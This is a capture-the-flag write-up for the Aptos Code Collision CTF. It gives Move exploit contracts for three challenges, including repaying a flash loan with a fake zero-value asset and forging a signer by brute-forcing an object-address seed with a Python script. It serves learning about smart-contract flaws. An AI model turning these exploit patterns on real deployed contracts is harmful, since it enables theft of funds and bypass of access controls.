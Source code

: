 # Aptos Code Collision CTF Writeup by zeroc

I participated in the [Aptos Code Collision CTF](https://ctf.aptosfoundation.org/) and learned a lot as a beginner in aptos. Below are the detailed writeups for this game.

rank: 5

![](./images/rank.png)

## Basic

Figuring out the whole challenge framework of this game may help you solve the challenges more easily.

There will be a server listening on a specific port and you can interact with it by establishing tcp connection. In general, your final goal is to make the `is_solved` function in the challenge contract not abort, then the server will give you the flag.

The general interaction process is as follows:
* The server listens on a specific port and waits for the client to connect.
* Once the client connects, the server will prepare a local environment to emulate the execution of the challenge contract.
* The client needs to send the bytecode of solution contract to the server. The server will publish all the contracts and may call the `initialize` function of the challenge contract to initialize the environment.
* The server waits for a series of instructions in the form of `address::module::function` from the client. The server will call the corresponding function of the corresponding module in the corresponding address. When the `solve` function of the solution contract is called, the server will return the result to the client.

## Welcome

It's a checkin challenge, the `is_solved` function in challenge contract will return `true` if `challenge_status.is_solved` is `true`. And we can see that the `solve` function in challenge contract will set `challenge_status.is_solved` to `true`.

So we just need to call the `solve` function in the solution contract.

```move
module solution::exploit {
    use challenge::welcome;

    public entry fun solve(account: &signer) {
        welcome::solve(account);
    }
}
```

![](./images/1.png)

## Flash Loan

As the name of the challenge suggests, this challenge requires exploiting a vulnerability in the flash loan contract to solve it. So we first need to understand  all the functions in the challenge contract, especially the functions we can call directly.

* `initialize`: It will create a fungible asset named `JBZ` and mint 1337 tokens of the asset using the mint reference as the initial supply.
* `flash_loan`: Set the `challenge_status.loan` to `true` and return the `amount` of fungible asset.
* `repay`: Set the `challenge_status.loan` to `false` and deposit the `amount` of fungible asset back to the `challenger`.
* `is_solved`: if `challenge_status.loan` is `true` or the balance of `challenger` not equals to 0, then abort.

Our goal is to withdraw all the fungible assets and make `challenge_status.loan` to `false`. Cause the implementation of this contract is extremely simple, it hasn't any check for the FungibleAsset you pass to the `repay` function. So we can just use a fake FungibleAsset to repay the loan.

```move
module solution::exploit {
    use challenge::flash;
    use aptos_framework::primary_fungible_store;
    use aptos_framework::fungible_asset;

    public entry fun solve(account: &signer) {
        let fa = flash::flash_loan(account, 1337);
        let metadata = fungible_asset::asset_metadata(&fa);
        let zero = fungible_asset::zero(metadata);
        primary_fungible_store::deposit(@1338, fa);  
        flash::repay(account, zero);
    }
}
```

![](./images/2.png)

## U Can't Touch This

Unlike the previous challenge, this challenge checks the `touched_this` function. You need to make the sha256 hash of the `flag.data` equal to `28ae486bc9f63979792edfd396c29c8ee275a8248ffc4da9d612eec60d6837f3`. So we can get the original value of `flag.data` by cracking the hash.

You can query this hash on the [CrackStation](https://crackstation.net/), it will tell you that the original value of `flag.data` is `osec`. We just get the original value and need to explore the way to change the `flag.data` to the target value.

Obviously, the `touch_this` function can change `flag.data` to the value you pass in. But it will call `check_admin` function first, that function will check the first and second bytes of the address of the signer. If the first byte is not `0xf7` or the second byte is not `0x5d`, then the function will abort.

Before exploiting its vulnerability, we can learn something about `signer` in the aptos move language: https://aptos.dev/en/build/smart-contracts/book/signer. It says that `In other words, all of the signer arguments must come first`. A obvious idea is to forge a signer, so we just need to know how the address of the signer is calculated.

You can easily find the `generate_signer` function in `aptos_framework::object` module, it will generate a signer with the `ConstructorRef` you pass in and the `ConstructorRef.self` corresponding to the address of the signer. Going further, you can find many functions in `aptos_framework::object` module that return `ConstructorRef` type, but what we need is a controllable address. The function that satisfies the condition is `create_named_object`.

The calculation of the address of the signer in the `create_named_object` function is as follows:
```
address = sha3(creator.address + seed + OBJECT_FROM_SEED_ADDRESS_SCHEME)
```
So we just need to brute force the `seed` to get the address we want. Below is a simple python script to brute force the seed.

```python
import hashlib
import random

prefix = bytes.fromhex("9c3b634ac05d0af393e0f93b9b19b61e7cac1c519f566276aa0c6fd15dac12aa")
suffix = bytes.fromhex("fe")
while True:
    seed = random.randbytes(8)
    if hashlib.sha3_256(prefix + seed + suffix).hexdigest().startswith("f75d"):
        print(seed.hex())
        break
```

And the solution contract is as follows:

```move
module solution::exploit {
    use uctt::this::{Self, SafeDepositBox};
    use aptos_framework::object;

    public entry fun solve(account: &signer) {
        let addr = @0x5d26592cd1c87c51aec9a4f0071011905b534b62a0eae4c5966ef8f13b5f4011;
        let safebox = object::address_to_object<SafeDepositBox>(addr);
        let cdef = object::create_named_object(account, x"4b5c981a4f784a79");
        let tsigner = object::generate_signer(&cdef);
        let flag = this::open_safe(safebox, &tsigner);
        flag = this::touch_this(flag, x"6f736563", &tsigner);
        this::close_safe(flag, account);
    }
}
```

![](./images/3.png)

## super mario 32

![](./images/4.png)

## super mario 64

![](./images/5.png)

## Zero Knowledge Bug

![](./images/7.png)

## groth16

![](./images/6.png)

## sage

![](./images/8.png)

## Simple Swap

![](./images/9.png)